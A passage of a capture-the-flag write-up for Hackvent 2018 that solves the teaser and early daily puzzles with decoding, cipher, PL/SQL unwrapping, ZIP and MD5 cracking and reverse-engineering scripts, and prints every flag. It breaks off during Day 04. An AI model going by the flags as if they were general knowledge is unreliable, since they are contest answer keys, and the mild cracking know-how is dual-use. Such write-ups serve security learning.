









# Hackvent 2018 write-up

In December 2018, I participated in the HackVent2018 challenge offered by [Hacking Lab](https://www.hacking-lab.com/index.html).  This was the second year for me,
and it seemed easier.  Some of the challenges were similar to the past year, so I was able to dig into my old notes and re-use techniques from previous solutions.  Also, knowing the style of HackVent, it was easier (sometimes) to know what to look for and what to ignore.

Asides from solving the challenges, part of the fun is engaging in the [online chat](https://hack.chat/?hackvent2018) with other CTF players.  The community is very friendly and takes part in brainstorming and comparing solutions.  Every day, when a new challenge was released, the chat was abuzz with excitement, sometimes with groans and exclamations of "what the heck?" upon receiving seemingly unsolvable problems.  However, without fail, someone became the first to solve it (and thereby establishing elite credibility) and others attempted to follow suit.

My solutions to the problems are detailed here, along with the original materials provided.

# Teaser

## Challenge description

We are ready - r u?


Follow the white rabbit.

## Solution

### Teaser -10: Braille

This looks like braille.  To help separate into characters, I used gimp (crop and add gridlines):



Using the [braille Wikipedia entry](https://en.wikipedia.org/wiki/Braille) and an [online decoder for braille](https://www.dcode.fr/braille-alphabet), I obtained the following:



This decoded to the link: [http://bit.ly/2TJvxHt](http://bit.ly/2TJvxHt)

Which follows the link [https://hackvent.hacking-lab.com/T34s3r_MMXVIII/index.php?flag=UI18-GAUa-lXhq-htyV-w2Wr-0yiV](https://hackvent.hacking-lab.com/T34s3r_MMXVIII/index.php?flag=UI18-GAUa-lXhq-htyV-w2Wr-0yiV)

I decoded the flag parameter using rot13 to get the real flag:

    $ echo UI18-GAUa-lXhq-htyV-w2Wr-0yiV | rot13
    HV18-TNHn-yKud-uglI-j2Je-0lvI

I followed the link to obtain a PDF file and unlock the next series of teaser challenges:
[https://hackvent.hacking-lab.com/T34s3r_MMXVIII/index.php?flag=HV18-TNHn-yKud-uglI-j2Je-0lvI](provided/ZOoxjUSe1OVB7OPoVrsX.pdf).

## Teaser -09: Morse Code

I opened the PDF file with libreoffice and selected the text hidden away in the top panel:

.... ...- .---- ---.. -....- --. --- .-. .. -....- --.. .-. ... -... -....- ..- ..-. .- . -....- - ... -.... -.-. -....- -.-. ...- - -  

I used an [online tool](https://www.dcode.fr/morse-code) to decode morse code:

HV18-GORI-ZRSB-UFAE-TS6C-CVTT

## Teaser -08: Magic Eye

Again I opened the PDF with libreoffice, moved the top two blocks away to reveal an image:


This looks a lot like a [magic eye](https://en.wikipedia.org/wiki/Magic_Eye) image used to create stereograms.

There's a few ways to solve this:

- Gimp following an [online tutorial](https://georgik.rocks/how-to-decode-stereogram-by-gimp/)
- Stegsolve using the stereogram solver (offset 72)
- [Online magic eye solver](http://magiceye.ecksdee.co.uk/)

I cropped the result, reshaped to be a square and inverted the colors to obtain a clean QR code:


I used an [online QR decoder](https://zxing.org/w/decode.jspx) to obtain the flag:

HV18-p2LK-DNcI-YKw7-T9Ad-mH3v

## Teaser -07: Broken QR code

To unlock the remainder of the teaser challenges, I ran binwalk on the pdf file:

    binwalk -e -M --dd=".*" ZOoxjUSe1OVB7OPoVrsX.pdf
    
This contained a rar file called "39A25.rar" which contained several "interesting files":

- Final_easy.zip
- old_school.jpg
- QR3C.png
- Santa.txt
- teaser.pls

These files are used in the next several teaser challenges.  The file "QR3C.png" appears to be a QR code: 


However it does not scan.  It took some experimenting - with the aid of the Python Image Library I wrote a [small program](solutions/teaser07.py) to output versions of the QR code filtered on the red, green and blue planes.  (This can also be achieved by using stegsolve).

  

I then used the online toole [qrcrazybox](https://merricx.github.io/qrazybox/) to help decode the files:

- red_plane: HV18-3I5a-
- green plane: Rnrl-s28r-
- blue plane: SRHj-Lhzx

Putting it all together gives the flag:

HV18-3I5a-Rnrl-s28r-SRHj-Lhzx


## Teaser -06: Santa toolless encryption

The file [Santa.txt](provided/Santa.txt) states the following:

```
Santa has caught up with the information age and does not trust
clear-text commands anymore.  
He has decided that all communications
have to be encrypted to prevent an unfriendly take-over of his team.
Santa chooses a simple, secure, and toolless encryption scheme.
However, his team's memory capacity is limited and so he can only use
their names (Dasher, Dancer, Prancer, Vixen, Comet, Cupid, Donder and
Blitzen) as keys.

Where is the team headed to?

STTYN YATLOEP DNEA ONBL TGNTO MHEHH EISTIARIB FHSRA LD IIONA NL HERUV LN17-PTAA-RTON-RDOE-MCTN-AHCO
```

This took quite a bit of experimenting.  I used [python to try different combinations of transposition cipher keys](solutions/teaser06.py).

The two keys that are used are "Blitzen" and "Donder".  To simply output the answer, I used the pycipher library:

    In [1]: from pycipher import ColTrans
    
    In [2]: print( ColTrans('Donder').decipher(ColTrans('Blitzen').decipher('STTYN YATLOEP DNEA ONBL TGNTO MHEHH EISTIARIB FHSRA LD IIONA NL HERUV LN17-PTAA-RTON-
       ...: RDOE-MCTN-AHCO')))
    SANTACALLINGTEAMFULLSPEEDAHEADDIRECTIONNORTHBYNORTHBYNORTHHVNORTHPOLEMAINSTATION

The full plain text is thus: 

"SANTA CALLING TEAM FULL SPEED AHEAD DIRECTION NORTH BY NORTH BY NORTH HV17-NORT-HPOL-EMAI-NSTA-TION"

And the flag is: HV17-NORT-HPOL-EMAI-NSTA-TION

(Note the HV17, this was most likely a mistake on the part of the challenge creators and should have been HV18.)

## Teaser -05: Oracle Stored Procedure

The file that is provided is [teaser.pls](provided/teaser.pls):

```
CREATE OR REPLACE FUNCTION checkHV18teaser wrapped 
a000000
b2
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
8
37f 22f
9bGsDUl+WXOiRvCg6f+CmODMp3UwgwIJ+txqfC9Dgz+VaPwOTWaoKj5jW2QUCQapzabE52vy
50h+W7xBf1NE2/Fa93pBwUJtOxLvz1WIU75VaGjqH5M6oL4/aHovVUteU3Arw0eLvVRDEvbd
0mLqbyd4kEtMnI76J3vuLaHC1mkYuwEN6bdmd3GQPBtHV4fWHr5OM5B81yX+kw0560LKdDx8
mVHJvc7y7vShjsCpFgEUd6sfN3ZbOkjjbg+AJSGuIjZzvT7vkQwM5wcQL73C6+BCiaaEG2ja
r+3zqCSk6QzcKvIwuBwXf9UHGL4YS47JO3EOmIPOy8VQYfY1M9g6UeieqOftVm/Pr8smR11r
UWM8kk1WTmMvY13s1Klpr7tFnzwjmnSnTP9Exz/dV5+cU3mlgyjqkAIsWnGqDGKMfVahOHSc
Bzalmd+HDxxBF39ymrsGHfBUv0gAPtnYVCVWiG0Q9ij5DbBffRrsx4uOYuAqJ4KwT5vNpKon
MSMAM3ZsIFVQgfnY/sfkB+jfGEuldGYiui7zvIMSHVDfPEE=

/
```

This looks like an Oracle stored procedure, but has some strange encoding and also the keyword "wrapped" which I have never seen before.

A quick google search of "create or replace function wrapped" reveals that [Wrapping is the process of hiding PL/SQL source code](https://docs.oracle.com/cd/B28359_01/appdev.111/b28370/wrap.htm#LNPLS016)

I found a nice [presentation from Black Hat](https://www.blackhat.com/presentations/bh-usa-06/BH-US-06-Finnigan.pdf) that discusses this wrapping, and also a [python unwrap.py script](https://github.com/DarkAngelStrike/UnwrapperPLSQL.git) to do the unwrapping.

To unwrap, I had to first convert the file to Linux formatting:

    $ dos2unix teaser.pls
    
Then I cloned the utility and ran it on the file:

    $ git clone https://github.com/DarkAngelStrike/UnwrapperPLSQL.git
    $ python UnwrapperPLSQL/unwrap.py teaser.pls teaser.sql

(Alternately an [online unwrapping service](https://www.codecrete.net/UnwrapIt/) is  available.)

The resulting SQL file is much more readable:

```
FUNCTION checkHV18teaser(FLAG VARCHAR2) RETURN NUMBER IS
    A VARCHAR2(4);
    B NUMBER(10);
    C NUMBER(10);
    H VARCHAR(40);
BEGIN
    A := SUBSTR(FLAG,1,4);
    IF NOT (A = 'HV18') THEN
        RETURN 0;
    END IF;

    B := TO_NUMBER(SUBSTR(FLAG,6,2));
    C := TO_NUMBER(SUBSTR(FLAG,8,2));
    IF NOT (((B * C) = 6497) AND (B < C)) THEN
        RETURN 0;
    END IF;

    A := SUBSTR(FLAG,11,4);
    SELECT STANDARD_HASH(A, 'MD5') INTO H FROM DUAL;
    IF NOT (H = 'CF945B5A36D1D3E68FFF78829CC8DBF6') THEN
    RETURN 0;
    END IF;

    IF NOT ((UTL_RAW.CAST_TO_VARCHAR2(UTL_RAW.BIT_XOR (UTL_RAW.CAST_TO_RAW(SUBSTR(FLAG,16,4)), UTL_RAW.CAST_TO_RAW(SUBSTR(FLAG,21,4)))) = 'zvru') AND (TO_NUMBER(SUBSTR(FLAG,21,4)) = SQRT(8814961))) THEN
        RETURN 0;
    END IF;

    IF NOT ( UTL_RAW.CAST_TO_VARCHAR2(UTL_ENCODE.BASE64_ENCODE(UTL_RAW.CAST_TO_RAW(SUBSTR(FLAG,26,4)))) = 'RjBtMA==') THEN
        RETURN 0;
    END IF;

    DBMS_OUTPUT.PUT_LINE(A);
    RETURN 1;
END;^@
```

This is a source code for a stored procedure that checks for a proper flag.  It is just a matter of reverse-engineering the steps to determine the correct flag.

The first part of the flag is straight-forward.  The first four characters are "HV18", as expected: 

    A := SUBSTR(FLAG,1,4);
    IF NOT (A = 'HV18') THEN
        RETURN 0;
    END IF;

The second part of the flag requires that a number made with the first two digits times a number made with the second two digits is equal to 6497, and the first number is less then the second two digits.  In other words if the second part of the code is AABB, then AA * BB = 6497, and AA < BB. Using [factordb.com](http://factordb.com/index.php?query=6497), the numbers are 73 and 89.  Thus the second part of the flag is "7389"

    B := TO_NUMBER(SUBSTR(FLAG,6,2));
    C := TO_NUMBER(SUBSTR(FLAG,8,2));
    IF NOT (((B * C) = 6497) AND (B < C)) THEN
        RETURN 0;
    END IF;

The third part of the flag is an MD5 hash.  Using [an online md5 cracker](https://crackstation.net/) I got the result "H0b0".

    A := SUBSTR(FLAG,11,4);
    SELECT STANDARD_HASH(A, 'MD5') INTO H FROM DUAL;
    IF NOT (H = 'CF945B5A36D1D3E68FFF78829CC8DBF6') THEN
    RETURN 0;
    END IF;

The fourth and fifth parts of the flag were a little trickier.

    IF NOT ((UTL_RAW.CAST_TO_VARCHAR2(UTL_RAW.BIT_XOR (UTL_RAW.CAST_TO_RAW(SUBSTR(FLAG,16,4)), UTL_RAW.CAST_TO_RAW(SUBSTR(FLAG,21,4)))) = 'zvru') AND (TO_NUMBER(SUBSTR(FLAG,21,4)) = SQRT(8814961))) THEN
        RETURN 0;
    END IF;

First determine the fifth part of the flag is the square route of 8814961:

    >>> import math
    >>> math.sqrt(8814961)
    2969.0

Then use character based xor to determine the fourth part of the flag:

    >>> def chr_xor(a, b):
    ...     return chr(ord(a) ^ ord(b))
    ... 
    >>> chr_xor('z', '2') + chr_xor('v', '9') + chr_xor('r', '6') + chr_xor('u', '9')
    'HODL'
    

Thus the fourth part of the flag is "HODL" and the fifth part is "2969".

The sixth part of the flag was simply a base64 encoding.  

    IF NOT ( UTL_RAW.CAST_TO_VARCHAR2(UTL_ENCODE.BASE64_ENCODE(UTL_RAW.CAST_TO_RAW(SUBSTR(FLAG,26,4)))) = 'RjBtMA==') THEN
        RETURN 0;
    END IF;

To decode base64 at the command line:

    $ echo RjBtMA== | base64 -d
    F0m0

Putting it all together, the flag is:

HV18-7389-H0b0-HODL-2969-F0m0

## Teaser -04: Punch card

The file that was provided looks like an old school punch card:


Initially, I used an [online punch card creator](https://www.masswerk.at/keypunch/) to manually create a punch card that contained the entire alphabet and then decoded it by hand.

Afterward, I found a [program to decode images of punch cards](https://gist.githubusercontent.com/jbfink/fa52f0dbf84fca57fff9/raw/199ec87221ef418580d27ea4cf001b3388cccb33/punchcard.py)

Running the program outputs the decoded punch card:

    $ ./punchcard.py -b 127 old_school.jpg 
    O2Z-H4PAL52Z4-3F19-HV18-0LD$-SCH0-0L1S-4W3S-0M3!-312D@8@C3@5@1K-C3:@&@ZT @L&@T&-

The flag is: HV18-0LD$-SCH0-0L1S-4W3S-0M3!

Elite Speak decode: OLD SCHOOL IS AWESOME!  (Indeed.)

## Teaser -03: NTFS alternate data stream

This was tricky to find.  I used rar to check for alternate data streams:

    $ unrar ltav 39A25.rar
    ...
    Type: NTFS alternate data stream
    Target: :quickresponse.txt
    ...

I then used Wine and the Windows version of 7zip command line to extract the files from the 39A25.rar again and obtained the file [old_school.jpg:quickresponse.txt](provided/quickresponse.txt), which contained the bit stream:

    11111110000011100011111111000001010101001101000001101110100000101110101110110111010111110100010111011011101001000101101011101100000101100001010100000111111110
    10101010101111111000000000110010110000000011111011110111010101010100100010110100010110011100101110101010001001100011111111001100010111110101011100001111111011
    11011000110100100000111000110110011010001001110010010100010101001000100111101111011110111011001010011111100010000000010010100100011010111111101110001110101100
    1100000100110011110001001010111010101000101111100011011101011011110000100101101110101001101010011000110000010100000100011011001111111010011000011000001
    
I used a [small Python program](solutions/teaser03.py) to convert this to a QR code:


Then finally I used an [online QR decoder](https://zxing.org/w/decode.jspx) to obtain the flag:

HV18-Idwn-whWd-9sNS-ScwC-XjSR


## Teaser -02: Encrypted ZIP

The provided file [Final_easy.zip](provided/Final_easy.zip) contains a file called z.zip, which is password protected.

By brute forcing, I learned that the password was "F" which resulted in another encrypted file.  Brute forcing that led to another file and so on.  This would have been tedious to do by hand, so I wrote [a python program to automate it](solutions/teaser02.py).

Concatenating all the single-letter passwords used resulted in the following text, which contained the flag.

```
Far shed each high read are men over day. Afraid we praise lively he suffer family estate is. Ample order up in of in ready. Timed blind had now thos
e ought set often which. Or snug dull he show more true wish. No at many deny away miss evil. On in so indeed spirit an mother. Amounted old strictly but mari
anne admitted. People former is remove remain as. Sudden looked elinor off gay estate nor silent. Son read such next see the rest two. Was use extent old enti
re sussex. Your nugget ist HV18-WO3y-7FLk-ExvN-kDue-28JF. All men drew its post knew. Of talking of calling however civilly wishing resolve. Eat imagine you c
hiefly few end ferrars compass. Be visitor females am ferrars inquiry. Latter law remark two lively thrown. Spot set they know rest its. Raptures law diverted
 believed jennings consider children the see. Had invited beloved carried the colonel. Occasional principles discretion it as he unpleasing boisterous. She be
d sing dear now son half. Congratulations, you have reached the last level.
```

The flag is:  HV18-WO3y-7FLk-ExvN-kDue-28JF

But even moreso, a new file "xenon.elf" appeared!

## Teaser -01: XBOX 360 ELF

The provided file is [xenon.elf](provided/xenon.elf).

The first thing I normally do is run the "file" command:

    $ file xenon.elf 
    xenon.elf: ELF 32-bit MSB executable, PowerPC or cisco 4500, version 1 (SYSV), statically linked, not stripped
    
I used two tools to help trace through the code:

- [RetDec decompiler](https://github.com/avast-tl/retdec)
- [Radare2](https://rada.re/r/) with the [Cutter GUI](https://github.com/radareorg/cutter)

In the decompiled code is:

    rc4_init(rc4_state, rc4_key, 16);
    rc4_crypt(rc4_state, ciphertext, 40);

So, it uses the RC4 cipher - it is simple as finding the key and the ciphertext, right?  Well, it took a bit longer than I thought.

In the file "xenon.c.frontend.dsm" output by retdec, the data section contains 40 bytes that occur before ASCII text, which seems like ciphertext.

    ; section: .rodata
    0x8001ea20:   df 66 58 c0 5e 93 c8 d4  c4 e9 5e 36 b1 55 14 4a   |.fX.^.....^6.U.J|
    0x8001ea30:   be 83 c9 0a dc 2b c5 f0  8f ab bb ac 49 dd 0f 01   |.....+......I...|
    0x8001ea40:   97 f6 66 8b 07 a0 b4 43                            |..f....C        |
    0x8001ea48:   0a 48 61 63 6b 56 65 6e  74 20 32 30 31 38 00      |.HackVent 2018. |   "\nHackVent 2018"


Finding the key required more in-depth investigation.

First of all, in the binary is the mysterious string: "I wish I was a Devkit :(".  I put that in the back of my mind, and looked at the disassembly.  I found the following two function calls:

    0x80001f4c      li r3, 0 ; r3 = 0
    0x80001f50      bl sym.xenon_secotp_read_line
...
    0x80001f5c      li r3, 1 ; r3 = 1
    0x80001f64      bl sym.xenon_secotp_read_line

A google search revealed that these calls read the value of eFuses, each an 8-byte value.  And [there are different values of the fusesets for retail vs. devkit](https://github.com/Free60Project/wiki/blob/master/Fusesets.md):

- fuseset 00: C0FFFFFFFFFFFFFF
- Devkit fuseset 01: 0F0F0F0F0F0F0F0F


NOTE: I wasted a lot of time by trying incorrect values from [Efuses by xXXBOXxHACKERXx.txt](https://digiex.net/attachments/efuses-by-xxxboxxhackerxx-txt.6380/). It mentioned that the value for Devkit fuseset 01 was 0F0F0F0F0F0F0FF0

The following disassembly code manipulates these values:

    |           0x80001f7c      li r27, 8 ; r27 = 8  
    ...
    |           0x80001f8c      mtctr r27 ; Move r27 to count register
    ...
    |           0x80001fcc      li r9, 0 ; r9 = 0  
    ...
    |       .-> 0x80002008      srawi r7, r9, 1 ; r7 = r9 >> 1
    |       :   0x8000200c      addze r7, r7 ; Add Zero extended
    |       :   0x80002010      addi r10, r1, 0x150 ; rc10 = rc4 key pointer
    |       :   0x80002014      subfic r7, r7, 7 ; Subtract: target, source, signed integer
    |       :   0x80002018      slwi r7, r7, 3 ; r7 = r7 << 3
    |       :   0x8000201c      srd r6, r8, r7 ; r6 = r8 >> r7
    |       :   0x80002020      srd r7, r4, r7 ; r7 = r4 >> r7
    |       :   0x80002024      stbux r6, r10, r9 ; R10 + R9 = r6 ; R10 = R10 + R9
    |       :   0x80002028      addi r9, r9, 2 ; R9 = R9 + 2
    |       :   0x8000202c      stb r7, 1(r10) ; r10[1] = r7
    |       `=< 0x80002030      bdnz 0x80002008

The comments are mine.  I spent quite some time browsing through [online PPC opcodes](http://math-atlas.sourceforge.net/devel/assembly/ppc_isa.pdf).

The first part of the loop manipulates r7.  For that part, the decompiled code is easier to understand:

    int32_t v6 = 0;
    int32_t v11 = 7;
    while (v11 != 0) {
        v9 = 8 * (7 - v6 / 2);      // Perform the magic calculation
        v6 += 2;
        // ...
        v11--;
    }

This calculation is difficult to do in my head, so I output the values using python:

    
    In [1]: v6 = 0
    
    In [2]: for _ in range(8):
       ...:     v9 = 8 * (7 - v6 / 2)
       ...:     v6 += 2
       ...:     print v9
       ...:     
    56
    48
    40
    32
    24
    16
    8
    0
    
Combining this knowledge together, I got the following pseudo-code:

    rc4key_offset = 0
    LOOP 8 times:
        Get next value of R7 (56, 48, 40, 32, 24, 16, 8, 0)
        rc4key_offset[0] = efuse0 value >> R7
        rc4key_offset[1] = efuse1 value >> R7
        rc4key_offset += 2

In other words, the values for fuse set 0 and fuse set 1 are seamed together alternating bytes to create the key.

Putting this all together, into a [solution](solutions/teaser01.py):

    #!/usr/bin/env python
    
    import base64
    
    from Crypto.Cipher import ARC4
    
    def main():
        fuse_set0 = [0xC0, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF]
        fuse_set1 = [0x0F, 0x0F, 0x0F, 0x0F, 0x0F, 0x0F, 0x0F, 0x0F]
    
        key = ''
    
        for i in range(len(fuse_set0)):
            key = key + chr(fuse_set0[i])
            key = key + chr(fuse_set1[i])
    
        ciphertext = [0xdf,0x66,0x58,0xc0,0x5e,0x93,0xc8,0xd4,0xc4,0xe9,0x5e,0x36,0xb1,0x55,0x14,0x4a,0xbe,0x83,0xc9,0x0a,0xdc,0x2b,0xc5,0xf0,0x8f,0xab,0xbb,0xac,0x49,0xdd,0x0f,0x01,0x97,0xf6,0x66,0x8b,0x07,0xa0,0xb4,0x43]
    
        ciphertext_str = ''.join([chr(c) for c in ciphertext])
    
        rc4_cipher = ARC4.new(key)
        plaintext = rc4_cipher.decrypt(ciphertext_str)
    
        print 'plaintext: {}'.format(plaintext)
        print base64.b64decode(plaintext)
    
    if __name__ == '__main__':
        main()

Running outputs the following:

    $ ./teaser01.py 
    plaintext: SFYxOC1MSUJYLUVOT04tSVNTVC1JTExBLUxJVkU=
    HV18-LIBX-ENON-ISST-ILLA-LIVE

The flag is: HV18-LIBX-ENON-ISST-ILLA-LIVE


# Day 01: Just Another Bar Code

## Challenge description

Level: Easy

After a decade of monochromity, Santa has finally updated his infrastructure with color displays.

With the new color code, the gift logistic robots can now handle many more gifts:


## Solution

I first tried converting the image to black and white but that did not help.  With many  of these challenges, there is a hint in the title and/or description.  So, I did a google search of "Just Another Bar Code" and found [JAB Code](https://jabcode.org).  Using the "scan code" feature on the web site, I uploaded the image to obtain the flag

HV18-L3ts-5t4r-7Th3-Phun-G33k

Elite speak decode: "Let's start the phun geek"

# Day 02: Me

## Challenge description

Level: Easy

Lost in translation

Can you help Santa decoding these numbers?

```
115 112 122 127 113 132 124 110 107 106 124 124 105 111 104 105 115 126 124 103 101 131 124 104 116 111 121 107 103 131 124 104 115 122 123 127 115 132 132 122 115 64 132 103 101 132 132 122 115 64 132 103 101 131 114 113 116 121 121 107 103 131 124 104 115 122 123 127 115 63 112 101 115 106 125 127 131 111 104 103 115 116 123 127 115 132 132 122 115 64 132 103 101 132 132 122 115 64 132 103 101 131 114 103 115 116 123 107 113 111 104 102 115 122 126 107 127 111 104 103 115 116 126 103 101 132 114 107 115 64 131 127 125 63 112 101 115 64 131 127 117 115 122 101 115 106 122 107 107 132 104 106 105 102 123 127 115 132 132 122 116 112 127 123 101 131 114 104 115 122 124 124 105 62 102 101 115 106 122 107 107 132 104 112 116 121 121 107 117 115 114 110 107 111 121 107 103 131 63 105 115 126 124 107 117 115 122 101 115 106 122 107 113 132 124 110 107 106 124 124 105 111 104 102 115 122 123 127 115 132 132 122 115 64 132 103 101 131 114 103 115 116 123 107 117 115 124 112 116 121 121 107 117 115 114 110 107 111 121 107 103 131 63 105 115 126 124 107 117 115 122 101 115 106 122 107 107 132 104 106 105 102 121 127 105 132 114 107 115 64 131 127 117 115 122 101 115 112 122 127 111 132 114 107 105 101 75 75 75 75 75 75
```

## Solution

This took a bit of staring, trial and error.  In short, this can be reduced to:

1. Convert base 8 to base 10
2. Convert base 10 to ascii
3. Decode base32
4. Decode Segment 14

Steps 1-3 can be done in plain old python

Step 4, I used the following web site:
http://kryptografie.de/kryptografie/chiffre/14-segment.htm

I used the [following python code](solutions/day02.py) to automate the process:
```
#!/usr/bin/env python3

import base64
import urllib.request

data = '115 112 122 127 113 132 124 110 107 106 124 124 105 111 104 105 115 126 124 103 101 131 124 104 116 111 121 107 103 131 124 104 115 122 123 127 115 132 132 122 115 64 132 103 101 132 132 122 115 64 132 103 101 131 114 113 116 121 121 107 103 131 124 104 115 122 123 127 115 63 112 101 115 106 125 127 131 111 104 103 115 116 123 127 115 132 132 122 115 64 132 103 101 132 132 122 115 64 132 103 101 131 114 103 115 116 123 107 113 111 104 102 115 122 126 107 127 111 104 103 115 116 126 103 101 132 114 107 115 64 131 127 125 63 112 101 115 64 131 127 117 115 122 101 115 106 122 107 107 132 104 106 105 102 123 127 115 132 132 122 116 112 127 123 101 131 114 104 115 122 124 124 105 62 102 101 115 106 122 107 107 132 104 112 116 121 121 107 117 115 114 110 107 111 121 107 103 131 63 105 115 126 124 107 117 115 122 101 115 106 122 107 113 132 124 110 107 106 124 124 105 111 104 102 115 122 123 127 115 132 132 122 115 64 132 103 101 131 114 103 115 116 123 107 117 115 124 112 116 121 121 107 117 115 114 110 107 111 121 107 103 131 63 105 115 126 124 107 117 115 122 101 115 106 122 107 107 132 104 106 105 102 121 127 105 132 114 107 115 64 131 127 117 115 122 101 115 112 122 127 111 132 114 107 105 101 75 75 75 75 75 75'

# Convert from base 8 -> base 10 -> ascii
result = ''.join([chr(int(num, 8)) for num in data.split()])

# Decode using base32
result2 = base64.b32decode(result)

# Decode using a 14-segment character decoder
data = b'app=Kryptografie.de&user=&pass=&chiffre=14-Segment&opnum=2&key=&code=' + result2
response = urllib.request.urlopen('http://kryptografie.de/cgi-bin/MysteryMaster.exe', data=data)

print(response.readline().decode())
```

The flag is:

HL18-7QTH-JZ1K-JKSD-GPEB-GJPU


# Day 03: Catch me

## Challenge description

Level: Easy

... if you can

To get the flag, just press the button

[Catch Me](https://hackvent.hacking-lab.com/C4tchM3_dizzle/)

## Solution

I loaded the page in a browser and a page showed a button "Get the flag".  When I tried to move the mouse to the button, the button moved.  It reminded me of similar pranks I have seen on the desk top.

To solve, I clicked on view source and observed the following Javascript:

```
  	var _0x766f=["\x47\x6F\x6F\x64\x20\x74\x72\x69\x63\x6B\x21\x0A\x0A\x54\x68\x69\x73\x20\x77\x61\x73\x20\x61\x20\x6C\x69\x74\x74\x6C\x65\x20\x62\x69\x74\x20\x74\x6F\x6F\x20\x65\x61\x73\x79\x2C\x20\x77\x61\x73\x6E\x27\x74\x20\x69\x74\x3F\x20\x53\x6F\x20\x74\x72\x79\x20\x61\x6E\x6F\x74\x68\x65\x72\x20\x6D\x65\x74\x68\x6F\x64\x20\x74\x6F\x20\x67\x65\x74\x20\x74\x68\x65\x20\x66\x6C\x61\x67\x2E", ... ]
```

I plugged this into a [python program](solutions/day03.py) and dumped the strings:

```
$ cat day03.py
#!/usr/bin/env python3

var_0x766f = ["\x47\x6F\x6F\x64\x20\x74\x72\x69\x63\x6B\x21\x0A\x0A\x54\x68\x69\x73\x20\x77\x61\x73\x20\x61\x20\x6C\x69\x74\x74\x6C\x65\x20\x62\x69\x74\x20\x7
4\x6F\x6F\x20\x65\x61\x73\x79\x2C\x20\x77\x61\x73\x6E\x27\x74\x20\x69\x74\x3F\x20\x53\x6F\x20\x74\x72\x79\x20\x61\x6E\x6F\x74\x68\x65\x72\x20\x6D\x65\x74\x68\
x6F\x64\x20\x74\x6F\x20\x67\x65\x74\x20\x74\x68\x65\x20\x66\x6C\x61\x67\x2E","\x43\x6F\x6E\x67\x72\x61\x74\x75\x6C\x61\x74\x69\x6F\x6E\x73\x21\x0A\x0A\x59\x6F
\x75\x20\x67\x6F\x74\x20\x74\x68\x65\x20\x66\x6C\x61\x67\x3A\x20\x48\x56\x31\x38\x2D\x70\x46\x41\x54\x2D\x4F\x31\x44\x6C\x2D\x48\x6A\x56\x70\x2D\x6A\x4A\x4E\x
45\x2D\x5A\x6A\x75\x38","\x63\x6C\x69\x63\x6B","\x23\x62\x75\x74\x74\x6F\x6E","\x77\x69\x64\x74\x68","\x68\x65\x69\x67\x68\x74","\x6F\x75\x74\x65\x72\x57\x69\
x64\x74\x68","\x6F\x75\x74\x65\x72\x48\x65\x69\x67\x68\x74","\x72\x65\x73\x69\x7A\x65","\x77\x68\x69\x63\x68","\x70\x72\x65\x76\x65\x6E\x74\x44\x65\x66\x61\x7
5\x6C\x74","\x6B\x65\x79\x64\x6F\x77\x6E","\x6D\x6F\x75\x73\x65\x65\x6E\x74\x65\x72","\x70\x61\x67\x65\x58","\x70\x61\x67\x65\x59","\x61\x64\x64\x45\x76\x65\x
6E\x74\x4C\x69\x73\x74\x65\x6E\x65\x72","\x6D\x6F\x75\x73\x65\x6D\x6F\x76\x65","\x6D\x6F\x75\x73\x65\x6F\x76\x65\x72","\x72\x61\x6E\x64\x6F\x6D","\x73\x63\x61
\x6C\x65","\x6D\x69\x64\x64\x6C\x65","\x64\x69\x73\x70\x6C\x61\x79","\x6E\x6F\x6E\x65","\x63\x73\x73","\x68\x69\x64\x65","\x6C\x65\x66\x74","\x74\x6F\x70","\x
62\x6C\x6F\x63\x6B","\x73\x68\x6F\x77","\x72\x65\x61\x64\x79"]

print(var_0x766f[1])
```

Running the program outputs:
```
$ ./day03.py 
Congratulations!

You got the flag: HV18-pFAT-O1Dl-HjVp-jJNE-Zju8
```

The flag is: HV18-pFAT-O1Dl-HjVp-jJNE-Zju8

# Day 04:  pirating like in the 90ies


## Challenge description

Level: Easy

Ahoy, my name is Santa and I want to be a pirate!

[Go to the pirates](https://hackvent.hacking-lab.com/Pirates_123/)

## Solution

Sometimes the easy ones are harder than the hard challenges.  This was one of them.  It took some serious web searching to learn this was copy protection from the game "secret of monkey island".

A [code wheel is available online](http://www.oldgames.sk/codewheel/secret-of-monkey-island-dial-a-pirate).

